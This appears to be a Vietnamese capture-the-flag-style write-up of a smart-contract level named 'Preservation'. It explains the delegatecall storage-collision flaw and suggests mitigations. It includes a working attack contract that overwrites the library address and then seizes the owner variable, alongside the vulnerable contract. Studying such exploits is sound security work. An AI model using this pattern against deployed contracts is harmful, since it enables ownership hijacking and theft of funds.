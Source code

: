 ### Kết luận
- Lỗ hổng: Giống ở phần `Delegation` thì `delegatecall` là nguyên nhân chính gây lỗ hổng. Nếu một thư viện độc hại được thay thế vào `timeZone1Library` hoặc `timeZone2Library`, kẻ tấn công có thể thay đổi trạng thái của hợp đồng gốc, bao gồm cả biến owner.
- Cách phòng tránh: Không sử dụng `delegatecall` để gọi thư viện từ địa chỉ lưu trữ bên ngoài, triển khai thư viện dưới dạng immutable hoặc lưu trữ mã thư viện trong hợp đồng chính.
- Thêm một số modifier, require cần thiết.
- VD: (chỉ owner mới được phép thay đổi thư viện)
```solidity
function updateLibrary(address newLibrary) public onlyOwner {
    require(newLibrary != address(0), "Invalid library address");
    timeZone1Library = newLibrary;
}

```

### Contract tấn công
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
interface IPReservation{
    function setFirstTime(uint256) external;
    function setSecondTime(uint256) external;
}
contract PreservationAttack{
    IPReservation public victim;
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
    constructor (address challenge){
        victim = IPReservation(challenge);
    }
     function setTime(uint256 addressAsUint) public {
        owner = address(uint160(addressAsUint));
        // đặt lại owner bằng địa chỉ chuyển vào

    }
    function attack() external{
        victim.setFirstTime(uint256(uint160(address(this))));
        // thay đổi địa chỉ timeZone1Library bằng địa chỉ của hợp đồng tấn công


        victim.setFirstTime(uint256(uint160(msg.sender)));
        // thay đổi owner bằng địa chỉ của ng tấn công (msg.sender)
    }
}
```
### Contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender;
    }

    // set the time for timezone 1
    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }

    // set the time for timezone 2
    function setSecondTime(uint256 _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
}

// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```

